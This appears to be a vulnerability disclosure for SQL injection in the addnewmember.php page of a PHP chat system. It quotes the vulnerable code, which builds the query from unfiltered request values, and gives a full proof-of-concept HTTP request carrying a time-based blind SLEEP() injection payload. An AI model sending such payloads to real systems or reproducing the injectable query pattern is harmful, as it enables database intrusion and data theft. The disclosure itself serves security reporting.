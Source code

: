 # Chat System Using PHP has sql injection in /user/addnewmember.php



## supplier



https://code-projects.org/chat-system-using-php-source-code/



## Vulnerability file



/user/addnewmember.php



## describe


The id parameter is not properly sanitized or parameterized, which leaves it vulnerable to SQL injection attacks. Attackers can exploit this by injecting malicious SQL code to manipulate the database queries. Utilizing time-based SQL injection methods, they can introduce intentional delays in the database response through functions such as SLEEP(). This technique can be employed to verify the existence of the vulnerability and may also be used to extract sensitive information from the database.



## **Code analysis**



```php
<?php
	include('../conn.php');
	$id=$_REQUEST['id'];
	$user=$_POST['user'];
	
	if (empty($user)){
	?>
		<script>
			window.alert('Please select user');
			window.history.back();
		</script>
	<?php
	}
	else{
	mysqli_query($conn,"insert into chat_member (userid, chatroomid) values ('$user','$id')");
	
	?>
		<script>
			window.alert('Member Added Successfully');
			window.history.back();
		</script>
	<?php
	}
?>
```

Inserting $_POST['user'] into Mysql without any filter. A time-based blind SQL injection can be triggered.





## POC

```http
POST /user/addnewmember.php?id=1 HTTP/1.1
Host: 127.0.0.1:8081
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=3d6344gkrsj651acv0qni7dk6a
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 54

user=1' AND (SELECT 1003 FROM (SELECT(SLEEP(5)))bYhJ) AND 'VosV'='VosV
```

Send this request, you can observe an additional 5 seconds time delay triggered by the time-based injection.

